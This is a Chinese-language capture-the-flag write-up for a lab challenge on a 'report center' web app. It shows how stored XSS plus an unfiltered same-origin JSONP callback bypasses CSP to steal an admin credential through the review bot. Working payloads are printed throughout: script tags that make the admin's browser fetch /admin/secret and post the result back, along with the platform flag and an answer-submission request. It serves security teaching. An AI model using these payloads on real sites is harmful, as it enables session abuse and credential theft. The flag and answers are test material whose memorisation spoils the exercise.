







# 1-4 举报中心 · 社交平台（同源 JSONP 绕过 CSP 窃取内部凭据）

## 题目信息

| 项目 | 内容 |
| --- | --- |
| 题目名称 | 内网渗透与高级社工-社交平台钓鱼-G4 ·「举报中心」 |
| 平台章节 | 7251（VMCourse，课程 1639） |
| 分类 | Web / 存储型 XSS + CSP 绕过（同源 JSONP 回调注入） |
| 题目描述 | 某社交平台的「举报中心」允许用户举报违规内容。管理员会在审核后台逐条查看用户提交的举报内容，并在举报单中回复处理结果。管理员的审核后台中存有一份普通用户无法访问的内部凭据。请提交举报，设法获取这份凭据。 |

## 环境信息

| 项目 | 内容 |
| --- | --- |
| 实训平台 | VMCourse，章节 ID `7251`；登录账号 `U202412368`，cookie 存 `.local/vmc-cookies.txt` |
| 靶机地址 | http://172.17.0.13:12203/ （**仅 HTTP**；`Server: gunicorn`，Flask 应用） |
| 靶机 SSH | 172.17.0.13:12187（`player`，密码未知，本次未使用） |
| 举报提交 | `POST /report`（字段：`reason` 举报理由、`content` 举报内容），成功 `302 -> /report/<id>` |
| 举报单详情 | `GET /report/<id>`（举报内容渲染于 `div.bubble`；管理员回复为 `div.reply.admin`，标注「管理员」） |
| 举报单补充 | `POST /report/<id>/reply`（字段：`body`），用户自己的回复标注「用户」 |
| 关键接口 | `GET /api/jsonp?callback=<js>`（同源 JSONP，`callback` 无任何过滤）；`GET /js/verify.js`（审核后台按钮脚本）；`GET /admin/secret`（内部凭据，需管理员会话，直接访问返回 403） |
| 本次涉及举报单 | #1 测试、#2 转义观察、#3 三种 XSS 载体对比、#4 回传后台 DOM、#5 延时方案（失败）、#6 回传后台源码、#7 窃取凭据成功 |
| 备注 | 选择题与 flag 题均已在平台提交并全部判对（11205 D、11207 C、11209 D、11211 A/B/D；flag 题 11219 通过），本 writeup 只记录 flag 题（11219）的解题过程。本机 shell 代理指向未启动的 `127.0.0.1:7897`，所有 curl 命令均加 `--noproxy '*'`。 |

## 解题过程

### 1. 环境初探：举报表单、提交流程与回复通道

```bash
curl -sS -i -m 20 --noproxy '*' http://172.17.0.13:12203/
```

返回 `HTTP/1.1 200 OK`、`Server: gunicorn`，页面标题「举报中心 · 社交平台」。首页即举报表单，字段为 `reason`（举报理由）与 `content`（举报内容）：

```html
<form method=post action="/report">
```

页面提示「提交后管理员会逐条查看核实，并在举报单里回复处理结果」——典型的 bot 审核模型。首页底部有两段脚本，其中第二段是**站点自己在用的同源 JSONP 调用**（后面绕 CSP 的关键线索）：

```html
<script>function showNotice(d){var e=document.getElementById("nt");if(e)e.textContent=d.text}</script>
<script src="/api/jsonp?callback=showNotice"></script>
```

提交测试举报 #1：

```bash
curl -sS -i -m 20 --noproxy '*' -X POST http://172.17.0.13:12203/report \
  --data-urlencode 'reason=test-reason' --data-urlencode 'content=hello test content'
# -> 302 FOUND, Location: /report/1
```

`GET /report/1`：举报内容渲染在 `div.bubble`，页面带 `POST /report/1/reply` 回复表单。以用户身份回复 `test-reply-from-me`（`302`）后，页面出现：

```html
<div class="reply"><div class=who>用户</div><div class=bubble>test-reply-from-me</div></div>
```

可见举报单是「用户可写内容 + 管理员后台查看/回复」的存储型场景，管理员视角必然存在一个渲染这些内容的审核页面——攻击面就在这里。



### 2. 后台入口枚举与注入点判断

枚举常见后台/敏感路径（30+ 条）：

```text
/admin /internal /review /reports /bot /flag /secret /login /dashboard /mod /manage ...
```

- 全部返回 `404`；`GET /report` 返回 `405`（只接受 POST）；仅 `/api/jsonp` 返回 `200`。
- 直接访问凭据接口：

```bash
curl -sS -i --noproxy '*' http://172.17.0.13:12203/admin/secret
# HTTP/1.1 403 FORBIDDEN
# forbidden
```

该路由存在但需要管理员会话，普通用户拿不到。

结论：不存在可直接访问的后台页面，只能走「管理员（bot）会查看举报内容」这条路（与 1-2 客服中心同族的 bot 审核模型）。接下来要弄清楚：审核后台如何渲染举报内容、能否执行脚本。

### 3. 观察同源 JSONP 接口：callback 参数无任何过滤

```bash
curl -sS -i --noproxy '*' 'http://172.17.0.13:12203/api/jsonp?callback=showNotice'
# HTTP/1.1 200 OK
# Content-Type: application/javascript; charset=utf-8
# showNotice({"text":"当前无待办公告。"});

curl -sS --noproxy '*' 'http://172.17.0.13:12203/api/jsonp?callback=alert(1)//'
# alert(1)//({"text":"当前无待办公告。"});

curl -sS --noproxy '*' 'http://172.17.0.13:12203/api/jsonp?callback=%3C/script%3E%3Csvg%20onload=alert(1)%3E'
# </script><svg onload=alert(1)>({"text":"当前无待办公告。"});
```

`callback` 参数被**原样拼接**进 `application/javascript` 响应，不做白名单、不做转义（连 `</script><svg onload=...>` 都原样输出）。也就是说：

```html
<script src="/api/jsonp?callback=<任意JS>//"></script>
```

可以在**同源**下执行任意 JavaScript（末尾 `//` 用于注释掉响应自动拼接的 `({"text":...})`）——这正是后面绕过 `script-src 'self'` 类 CSP 的钥匙。


### 4. 失败尝试一：直接在举报内容里塞经典 XSS 载荷（举报单 #2）

提交含四种经典载体的举报内容：

```html
<b>bold</b> <script>alert(1)</script> <svg onload=alert(2)> 
```

- **观察**：公开的举报单页面显示为 `&lt;b&gt;bold&lt;/b&gt; &lt;script&gt;...`（HTML 转义）。但这只能证明“用户侧视图”做了转义，无法据此判断管理员审核后台的渲染方式。
- **调整**：改用“同源 fetch 信标”做盲测——在载荷里把标记写回本举报单回复，以 bot 浏览器是否真的发起请求来判定“被转义 / 被执行 / 被拦截”。

### 5. 失败尝试二：内联 `<script>` 与 `<svg onload>` 被后台 CSP 拦截（举报单 #3）

把三种执行载体的**同源回传信标**放进同一张举报单：

```html
<svg onload="fetch('/report/3/reply',{method:'POST',body:new URLSearchParams({body:'PWN-SVG'})})"></svg>
<script>fetch('/report/3/reply',{method:'POST',body:new URLSearchParams({body:'PWN-RAW'})})</script>
<script src="/api/jsonp?callback=fetch('/report/3/reply',{method:'POST',body:new URLSearchParams({body:'PWN-JSONP'})})//"></script>
```

约 10 秒后刷新 `/report/3`，只出现一条管理员回复：

```text
PWN-JSONP
```

`PWN-SVG`、`PWN-RAW` 均未出现。

- **观察**：管理员（bot）确实自动查看了新举报单，且只执行了第三种（同源 JSONP）载体。
- **结论**：审核后台**原样渲染**举报内容（未转义），但部署了严格 CSP，**内联脚本与内联事件处理器被拦截**（效果等价于 `script-src 'self'`）；而 `/api/jsonp` 属于同源脚本源，`<script src>` 加载它不受 CSP 限制。
- **调整**：放弃一切内联执行方式，后续载荷统一走「同源 JSONP `<script src>`」通道。



### 6. 绕过 CSP：JSONP callback 注入 `<script src>` 执行任意 JS

（第 3 步已确认 callback 无过滤；#3 中第三组载体就是该思路的验证。）通用形式：

```html
<script src="/api/jsonp?callback=<任意JS>//"></script>
```

要点：

1. 响应类型是 `application/javascript`，CSP 以 `'self'` 信任同源脚本，`<script src="/api/jsonp?...">` 不会被拦截；
2. `callback` 直接拼进脚本正文，`<任意JS>` 会作为脚本的一部分执行；
3. 末尾的 `//` 注释掉响应自带的 `({"text":"当前无待办公告。"})`，避免语法错误；
4. 无需外网服务器：脚本运行在**管理员浏览器**上下文里，同源 `fetch` 天然携带管理员会话。

### 7. 失败尝试三：只回传当时的 DOM，拿不到凭据的加载逻辑（举报单 #4）

先用同步回传整个页面 DOM，观察审核后台长什么样：

```html
<script src="/api/jsonp?callback=fetch('/report/4/reply',{method:'POST',body:new URLSearchParams({body:document.documentElement.outerHTML})})//"></script>
```

立即收到管理员回复，解码后是审核后台页面，关键片段：

```html
<title>审核后台 · 社交平台</title>
<div class="me"><span class="ava">审</span>...<div class="name">审核员</div><div class="sub">超级管理员</div></div>
<h1>审核后台</h1><p>举报单 #4 · 待处理</p>
...
<p class="sub">点击加载本次举报关联的内部凭据（仅管理员可见）。</p>
<button id="vbtn" class="btn ghost">加载内部凭据</button>
<div id="vout" class="bubble"></div>
```

- **观察**：凭据**不在 DOM 里**，需要点击 `#vbtn` 按钮后由脚本加载；本次快照也没有抓到按钮的绑定脚本（该脚本位于页面后部、注入点之后）。
- **调整**：改为回传**服务器发给管理员的完整页面源码**（`fetch(location.href)`），而不是执行时的 DOM 快照。

### 8. 失败尝试四：`setTimeout` 延时方案失效（举报单 #5）

尝试延时 1.5 s 点击按钮、再延时 1.5 s 回传结果：

```html
<script src="/api/jsonp?callback=setTimeout(()=>{document.getElementById('vbtn').click();setTimeout(()=>{fetch('/report/5/reply',...)},1500)},1500)//"></script>
```

（原始记录中内层回传请求的 body 从略，作用是把点击后 `#vout` 中的凭据写回举报单 #5。）

- **观察**：轮询 70+ 秒，**没有任何管理员回复**。
- **分析**：bot 查看页面的存活时间很短——#3/#4 的**同步** `fetch` 都能成功送达，而 1.5 s / 3 s 的延时任务在 bot 离开页面后才触发，请求根本没发出去。
- **调整**：所有动作必须**同步执行**（或在微任务内尽快完成），并优先回传“页面源码”这类一定能拿到的数据，不依赖 DOM 状态与用户交互。

### 9. 同步回传后台完整源码，定位凭据加载逻辑（举报单 #6）

```html
<script src="/api/jsonp?callback=fetch(location.href).then(r=>r.text()).then(t=>fetch('/report/6/reply',{method:'POST',body:new URLSearchParams({body:t})}))//"></script>
```

管理员回复中可见：

```html
<script src="/js/verify.js"></script>
```

该静态脚本无需鉴权即可直接获取：

```bash
curl -sS --noproxy '*' http://172.17.0.13:12203/js/verify.js
```

```js
// 审核后台内部核验：点击后加载本次举报关联的内部凭据（需管理员会话）
document.addEventListener('DOMContentLoaded', function () {
  var b = document.getElementById('vbtn');
  if (!b) return;
  b.addEventListener('click', function () {
    fetch('/admin/secret').then(function (r) { return r.text(); }).then(function (t) {
      document.getElementById('vout').textContent = t;
    });
  });
});
```

由此确认：凭据接口是 `GET /admin/secret`（我们直接访问返回 403），审核后台按钮点击后在同源内请求它。既然脚本已经能在管理员浏览器里执行，直接替 bot 发这个请求即可。



### 10. 借管理员会话读取凭据并回传（举报单 #7，成功）

```html
<script src="/api/jsonp?callback=fetch('/admin/secret').then(r=>r.text()).then(t=>fetch('/report/7/reply',{method:'POST',body:new URLSearchParams({body:t})}))//"></script>
```

约 10 秒后刷新 `/report/7`，出现一条**管理员**回复（`<div class="reply admin">`，标注「管理员」），原文：

```text
管理员内部凭据：vmc{r7xcT6L4uWom8Zd7thphJmYDFRCVMaU4}
```

回复由 bot 会话发出（否则只会标注「用户」），说明凭据确实是从管理员浏览器内、携带管理员会话读出来的。



### 11. 平台提交与判分验证

flag 题（11219）提交（与其余选择题同一次 `submitAnswers` 提交）：

```bash
curl -sS -k --noproxy '*' -m 40 -b .local/vmc-cookies.txt \
  -X POST "$VMC_BASE/api/student/submitAnswers" \
  -F "sectionID=7251" \
  -F 'answers={"questionID":11219,"answer":"{\"num\":3,\"answer\":[\"\",\"\",\"vmc{r7xcT6L4uWom8Zd7thphJmYDFRCVMaU4}\"]}"}' \
  -F "contestMode=0"
```

- 响应 `"code":0,"msg":"success"`；服务端把填空答案规范化为 `{"answer":["","true","vmc{r7xcT6L4uWom8Zd7thphJmYDFRCVMaU4}"],"num":3}`。
- 评测完成前顶层出现过 `isCorrect:false`，随后复核：

```bash
curl -sS -k --noproxy '*' -b .local/vmc-cookies.txt \
  "$VMC_BASE/api/student/get/answerHistory?sectionID=7251"
# 11219 isCorrect=True（全部 5 题 isCorrect=True，studentScoreRate=1）
```

### 12. 解题过程中的 AI 助教问答（截图 06–08）

解题过程中围绕 CSP、JSONP 与回传通道，向课程教学问答平台（Qwen2.5）提了 3 个问题，用于确认攻击思路：

**问题 1：CSP 的 `script-src 'self'` 为什么挡不住同源 JSONP 回调注入？**（截图 06）——确认 `script-src 'self'` 限制的是脚本来源，而 `/api/jsonp` 属于同源脚本，`<script src="/api/jsonp?callback=...">` 天然被信任；callback 未过滤时，等于把任意 JS 注入了「被信任的脚本源」。这正是本题内联脚本被拦、JSONP 却能执行的原因。



**问题 2：JSONP 的 callback 不做白名单校验会导致什么风险、如何修复？**（截图 07）——确认风险是任意 JavaScript 注入（等价 XSS），修复要点为 callback 严格白名单、尽量避免 JSONP 改用 CORS/fetch，并配合 CSP 与输入校验。



**问题 3：XSS 窃取数据时，同源接口回传为什么通常比外部外带更可靠？**（截图 08）——确认同源请求不受跨域策略阻碍，且走的是站点内部被信任的通道，比外部反连（受 CORS/网络与出网策略影响）更稳定；对应本题选择 `POST /report/<id>/reply` 写回举报单的做法。



## Flag

```text
vmc{r7xcT6L4uWom8Zd7thphJmYDFRCVMaU4}
```

（管理员回复原文为 `管理员内部凭据：vmc{r7xcT6L4uWom8Zd7thphJmYDFRCVMaU4}`，举报单 #7。）

## 总结与心得

### 漏洞原理

本题是一条「管理员浏览器内的任意脚本执行 → 同源越权读取 → 同源回传」的完整链路：

1. **审核后台原样渲染用户内容**：举报内容在管理员审核页以未转义方式输出（#3 实测内联载体确实进入页面并被 CSP 处理），这是存储型 XSS 的注入前提；CSP 只是兜底，一旦存在被信任的脚本源就会失效。
2. **CSP 期望下的同源 JSONP 回调未过滤**：站点想靠 `script-src 'self'` 拦住内联脚本（举报单 #3、解题过程第 5 步实测 `<script>` / `<svg onload>` 均被拦截），但 `/api/jsonp` 把 `callback` 原样拼进 `application/javascript` 响应——它恰好是 CSP 信任的**同源脚本源**，于是 `<script src="/api/jsonp?callback=<任意JS>//">` 等同于任意脚本执行。严格 CSP 并不等于“XSS 失去利用价值”。
3. **管理后台敏感数据与同源请求的组合风险**：内部凭据由 `/admin/secret` 下发，只校验管理员会话；脚本在管理员浏览器上下文执行后，`fetch('/admin/secret')` 自动携带管理员 Cookie，直接越权取到凭据。
4. **同源回传通道**：bot 用管理员会话 `POST /report/<id>/reply`，回复落库并标注「管理员」，用户刷新即可读取——无需外网服务器、也无需窃取 Cookie（HttpOnly 同样拦不住），整个闭环都在靶机内完成。

### 做题方法与关键点

- **先摸清过滤/渲染与 CSP 行为，再找可利用的同源通道**：用“同源 fetch 信标”把不可见的管理员浏览器行为变成可见结果——每个载体配一个回传标记，谁被执行、谁被 CSP 拦一目了然；不要从用户侧页面的转义与否推断后台行为（本题公开页转义 ≠ 后台安全）。
- 注意站点**自己在用的脚本引用**：首页的 `<script src="/api/jsonp?callback=showNotice">` 直接提示了“被 CSP 信任的同源脚本源”在哪里。
- **时序是隐藏约束**：bot 生命周期很短，同步执行的载荷（`fetch` 立即调用、Promise 链）都能成功，`setTimeout` 延时全部落空；载荷要在解析到 `<script src>` 的那一瞬间就发起请求。
- 信息不足时先同步回传 `fetch(location.href)` 的**完整源码**，而不是 DOM 快照（快照会缺注入点之后的内容）。
- 回传通道就地取材：举报单回复接口既证明执行成功，也能把凭据带出来。

### 失败尝试回顾

| # | 尝试 | 观察 | 原因与调整 |
| --- | --- | --- | --- |
| 1 | 枚举 30+ 个后台路径 | 全部 404；`/admin/secret` 403 | 后台无对外入口，只能借管理员浏览器（bot） |
| 2 | 举报单 #2 直接提交经典 XSS 载荷 | 用户侧全部转义，无法判断后台行为 | 后台渲染方式未知，改用同源 fetch 信标盲测 |
| 3 | 举报单 #3 内联 `<script>`、`<svg onload>` | 无 `PWN-RAW` / `PWN-SVG` 回传 | 后台严格 CSP 拦截内联执行；改用同源 JSONP `<script src>`（`PWN-JSONP` 成功） |
